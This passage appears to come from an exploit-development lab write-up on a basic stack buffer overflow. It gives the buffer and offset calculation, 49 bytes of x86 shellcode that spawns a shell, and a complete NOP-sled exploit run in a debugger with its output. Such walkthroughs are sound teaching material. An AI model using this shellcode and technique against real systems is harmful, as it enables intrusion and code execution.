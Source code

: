 The size of buffer that we can put our shell into it is 264 bytes and follow by offset 4 bytes. I choose an offset 0xbffff4e8 that RET address should point to our shellcode.

The following is Shellcode /bin/dash - 49 bytes
```
\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42
```

We have 49 bytes shellcode so we construct our exploit.
{NOP*215} + {shellcode 49 bytes} + {offset}

The complete exploit:
```
gdb-peda$ r $(python -c 'print("\x90"*215 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\xe8\xf4\xff\xbf")')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("\x90"*215 + "\xeb\x1a\x5e\x31\xc0\x88\x46\x07\x8d\x1e\x89\x5e\x08\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\xe8\xe1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x4a\x41\x41\x41\x41\x42\x42\x42\x42" + "\xe8\xf4\xff\xbf")')
process 28080 is executing new program: /bin/dash
# uname -a
[New process 28086]
process 28086 is executing new program: /bin/uname
Linux BOEING 4.6.0-kali1-686-pae #1 SMP Debian 4.6.4-1kali1 (2016-07-21) i686 GNU/Linux
[Inferior 2 (process 28086) exited normally]
```
